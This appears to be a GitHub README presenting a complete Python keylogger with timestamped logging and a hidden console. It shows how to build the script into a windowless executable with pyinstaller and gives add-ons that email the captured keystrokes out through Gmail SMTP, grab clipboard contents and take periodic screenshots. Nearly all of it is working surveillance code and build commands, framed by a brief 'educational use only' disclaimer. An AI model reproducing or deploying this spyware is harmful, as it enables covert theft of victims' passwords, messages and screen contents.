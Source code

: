 
# **Keylogger with Timestamp & Hidden Execution**
### **Author:** D4rkN0d3  
### **Description:**  
This keylogger captures keystrokes, logs them with timestamps, and runs as a hidden background process. The logs are saved in a text file (`keylog.txt`).  

---

## **1️⃣ Features**
✅ Logs all keystrokes (letters, numbers, special keys)  
✅ Adds timestamps to each keystroke  
✅ Runs in the background (hidden process)  
✅ Creates a log file (`keylog.txt`)  
✅ Works silently without a visible console  

---

## **2️⃣ Installation**
### **Install Dependencies**  
Ensure Python is installed (`python --version`). Then, install required modules:  
```sh
pip install pynput
```
To run it as an executable, install `pyinstaller`:  
```sh
pip install pyinstaller
```

---

## **3️⃣ How It Works**
- **Listens** for keyboard events using `pynput.keyboard`.  
- **Records keystrokes** and stores them in `keylog.txt`.  
- **Adds timestamps** using Python's `logging` module.  
- **Hides execution** (on Windows) using `ctypes.windll.kernel32.FreeConsole()`.  

---

## **4️⃣ Keylogger Code**
```python
import logging
import os
import sys
import time
from pynput import keyboard

# Set up logging
log_file = "keylog.txt"
logging.basicConfig(filename=log_file, level=logging.INFO, format="%(asctime)s - %(message)s", datefmt="%Y-%m-%d %H:%M:%S")

def on_press(key):
    try:
        if hasattr(key, 'char') and key.char:
            logging.info(f"{key.char}")
        else:
            logging.info(f" [{key}] ")  # Special keys like Shift, Enter, etc.
    except Exception as e:
        logging.error(f"Error: {e}")

# Hide console window (Windows only)
def hide_console():
    if sys.platform == "win32":
        import ctypes
        ctypes.windll.kernel32.FreeConsole()

# Start keylogger
hide_console()
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

---

## **5️⃣ Running the Keylogger**
### **Run the Python Script (Testing)**
```sh
python keylogger.py
```
- The script starts logging keystrokes.
- Press **Ctrl + C** in the terminal to stop.

### **Convert to a Hidden Executable**
To make it run in the background, convert it into an EXE:  
```sh
pyinstaller --onefile --noconsole keylogger.py
```
🔹 `--onefile`: Packages everything into a single EXE.  
🔹 `--noconsole`: Hides the terminal window.

After running this, the `dist/keylogger.exe` file is created.

---

## **6️⃣ How to Stop the Keylogger**
### **1. Stop via Task Manager (Windows)**
- Open **Task Manager** (`Ctrl + Shift + Esc`).
- Go to the **Details** tab.
- Find `keylogger.exe`, right-click, and **End Task**.

### **2. Stop via Command Line**
#### **PowerShell**
```powershell
Stop-Process -Name "keylogger" -Force
```
#### **Command Prompt**
```sh
taskkill /F /IM keylogger.exe
```

### **3. Delete the Executable (Permanent Removal)**
1. Stop the process (`taskkill` or **Task Manager**).
2. Delete the `keylogger.exe` file.
3. Check **Startup Programs** (if you added it there).

---

## **7️⃣ Enhancements**
### **📌 1. Send Logs via Email**
Automatically send logs via email every X minutes.
```python
import smtplib
from email.message import EmailMessage

def send_email():
    msg = EmailMessage()
    msg['Subject'] = "Keylog Report"
    msg['From'] = "your_email@gmail.com"
    msg['To'] = "your_email@gmail.com"
    
    with open("keylog.txt", "r") as file:
        msg.set_content(file.read())

    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as server:
        server.login("your_email@gmail.com", "your_password")
        server.send_message(msg)

send_email()
```
🚨 **Note:** Enable "Less Secure Apps" in Gmail or use an **app password**.

### **📌 2. Capture Clipboard Data**
Use `pyperclip` to log copied text:
```python
import pyperclip
clipboard_data = pyperclip.paste()
logging.info(f"Clipboard: {clipboard_data}")
```
Install `pyperclip`:  
```sh
pip install pyperclip
```

### **📌 3. Take Screenshots at Intervals**
Use `Pillow` to capture screenshots:
```python
from PIL import ImageGrab

def capture_screenshot():
    screenshot = ImageGrab.grab()
    screenshot.save("screenshot.png")

capture_screenshot()
```
Install `Pillow`:  
```sh
pip install pillow
```

---

## **8️⃣ Legal Disclaimer**
🔴 **This keylogger is for educational and ethical hacking purposes ONLY.**  
🔴 Using this on someone else's computer **without consent** is illegal.  
🔴 **Always get permission before deploying security tools.**  

---

## **9️⃣ Conclusion**
This keylogger demonstrates how to capture keystrokes, hide execution, and log timestamps. Further improvements can include **network transmission, clipboard logging, and screenshot capturing.**  

